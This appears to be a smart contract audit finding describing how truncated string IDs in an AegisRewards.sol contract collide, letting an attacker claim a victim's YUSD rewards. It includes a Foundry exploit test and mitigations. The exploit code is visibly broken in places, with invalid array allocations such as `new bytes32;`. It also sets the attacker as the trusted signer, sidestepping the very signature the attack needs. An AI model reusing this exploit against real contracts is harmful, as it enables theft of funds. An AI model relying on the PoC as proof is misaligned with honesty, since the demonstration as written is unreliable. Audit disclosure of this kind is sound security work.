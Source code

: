 Fluffy Marigold Armadillo

Medium

# Attacker will steal rewards of other users via colliding truncated IDs

### Summary

The use of `_stringToBytes32` for on-chain ID derivation will cause silent collisions for any two strings longer than 32 bytes that share the same first 32 bytes. This root cause will cause a **theft of reward funds** for end users as an attacker deposits under a colliding long string and then claims the combined pot in a single `claimRewards` call.

### Root Cause

In **AegisRewards.sol**, the helper  
```solidity
function _stringToBytes32(string memory source) private pure returns (bytes32 result) {
  bytes memory str = bytes(source);
  if (str.length == 0) return 0x0;
  assembly { result := mload(add(source, 32)) }
}
```
merely **mloads** the first 32 bytes of the string’s in-memory data, dropping the rest. Two distinct 33+ byte IDs that share the same prefix thus collapse to the same `bytes32` key.

Link to the code:
https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/main/aegis-contracts/contracts/AegisRewards.sol#L188-L192

### Internal Pre-conditions

1. **Admin / minting contract** calls `depositRewards` with a 33+ byte string `s1` for Victim → stores rewards under `idX = _stringToBytes32(s1)`.  
2. **Admin / minting contract** (or attacker via the same interface) calls `depositRewards` with a different 33+ byte string `s2`, where `s2[0..31] == s1[0..31]` → also maps to `idX`.  
3. That `idX` has been finalized via `finalizeRewards(idX, …)` so it’s made claimable.

### External Pre-conditions

None

### Attack Path

1. **Admin** deposits 100 YUSD for Victim’s long ID `s1` → on-chain `_rewards[idX].amount == 100`.  
2. **Admin** (or attacker via the same minting interface) deposits 50 YUSD for Attacker’s long ID `s2` → since `s2` truncates to `idX`, now `_rewards[idX].amount == 150`.  
3. **Attacker** obtains a valid signature for a `ClaimRequest` over `s2` → builds `ClaimRewardsLib.ClaimRequest({ claimer: attacker, ids: [idX], amounts: [150] })`.  
4. **Attacker** calls `claimRewards` with that signature. The contract sees one entry `idX`, dispenses all 150 YUSD in a single call.  
5. **Result:** Victim’s 100 YUSD + Attacker’s 50 YUSD flows into Attacker’s wallet.

### Impact

- **Affected party:** Victims who deposited under a long string ID.  
- **Effect:** Complete loss of their reward balances—they’re stealthily swept into the attacker’s claim.  
- **Loss:** Victim loses their full deposited amount (e.g. 100 YUSD), attacker gains that amount.


### PoC

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.26;

import "forge-std/Test.sol";
import "../src/AegisRewards.sol";
import "../src/lib/ClaimRewardsLib.sol";
import "../src/interfaces/IAegisConfig.sol";
import "../src/interfaces/IYUSD.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

/// @dev Minimal ERC20 stub that implements IYUSD
contract MockYUSD is ERC20, IYUSD {
    constructor() ERC20("YUSD","YUSD") {}

    function mint(address to, uint256 amt) external {
        _mint(to, amt);
    }
}

/// @dev Stub config: whitelists everything and returns our signer as trusted
contract StubConfig is IAegisConfig {
    address public override trustedSigner;
    constructor(address signer_) { trustedSigner = signer_; }
    function isWhitelisted(address) external pure override returns(bool) { return true; }
    function supportsInterface(bytes4) external pure override returns(bool) {
        return bytes4(0) == type(IAegisConfig).interfaceId;
    }
    error ZeroAddress();
    event SetTrustedSigner(address);
}

contract StringTruncationAttackPoC is Test {
    AegisRewards public rewards;
    MockYUSD       public yusd;
    StubConfig     public config;

    address public admin;
    address public attacker;
    uint256 public attackerKey;

    string public s1;
    string public s2;

    function setUp() public {
        // — Setup accounts —
        admin       = address(this);
        attackerKey = 0xBEEF;
        attacker    = vm.addr(attackerKey);

        // — Deploy mocks —
        yusd    = new MockYUSD();
        config  = new StubConfig(attacker);

        // — Deploy AegisRewards with admin as initial default admin —
        rewards = new AegisRewards(IYUSD(address(yusd)), IAegisConfig(address(config)), admin);

        // — Grant admin minting rights —
        rewards.setAegisMintingAddress(admin);

        // — Build two different 33‐byte strings sharing first 32 bytes —
        bytes memory b1 = new bytes(33);
        bytes memory b2 = new bytes(33);
        for (uint i = 0; i < 32; i++) {
            b1[i] = bytes1("A");
            b2[i] = bytes1("A");
        }
        b1[32] = bytes1("1");
        b2[32] = bytes1("2");
        s1 = string(b1);
        s2 = string(b2);

        // — Mint & deposit 100 YUSD under s1 —
        yusd.mint(address(rewards), 150);
        rewards.depositRewards(abi.encode(s1), 100);

        // — Deposit 50 YUSD under s2 (same first 32 bytes → collides) —
        rewards.depositRewards(abi.encode(s2), 50);

        // — Finalize the shared truncated ID —
        bytes32 sharedId = bytes32(bytes(b1)); // same as _stringToBytes32(s1) and s2
        bytes32 mgrRole = keccak256("REWARDS_MANAGER_ROLE");
        rewards.grantRole(mgrRole, admin);
        rewards.finalizeRewards(sharedId, 0);
    }

    function testAttackerStealsVictimFunds() public {
        // Build ClaimRequest for attacker, using s2 → but ID truncates to sharedId
        ClaimRewardsLib.ClaimRequest memory req;
        req.claimer = attacker;
        req.ids     = new bytes32;
        req.amounts = new uint256;

        // Both strings collapse to the same bytes32
        bytes32 sharedId = bytes32(bytes(bytes(s2)));
        req.ids[0]     = sharedId;
        req.amounts[0] = 150; // attacker claims entire pot

        // Sign the request off-chain (we simulate with vm.sign)
        bytes32 digest = ClaimRewardsLib.hashClaimRequest(req, rewards.getDomainSeparator());
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(attackerKey, digest);
        bytes memory sig = abi.encodePacked(r, s, v);

        // Prank as attacker and execute
        vm.prank(attacker);
        rewards.claimRewards(req, sig);

        // Attacker receives 150 = victim's 100 + attacker's 50
        assertEq(yusd.balanceOf(attacker), 150);
    }
}
```

**Explanation of the PoC:**

1. **Two 33-byte strings** (`s1`, `s2`) share the same first 32 bytes but differ in the 33rd.
2. **On‐chain** `_stringToBytes32` drops byte 33, so both strings map to one `bytes32` key.
3. **Deposits** of 100 YUSD under `s1` and 50 YUSD under `s2` both increment `_rewards[sharedId].amount` to 150.
4. **Attacker** obtains a valid EIP-712 signature for `s2` and calls `claimRewards`, draining all 150 YUSD—even the victim’s 100.

Run with:
```bash
forge test --match-path test/StringTruncationAttackPoC.t.sol
```

### Mitigation

 **Hash the full string** instead of truncating:  
  ```solidity
  bytes32 id = keccak256(abi.encodePacked(sourceString));
  ```  
- **Or** enforce `bytes(source).length ≤ 32` with a `require`, rejecting any longer IDs.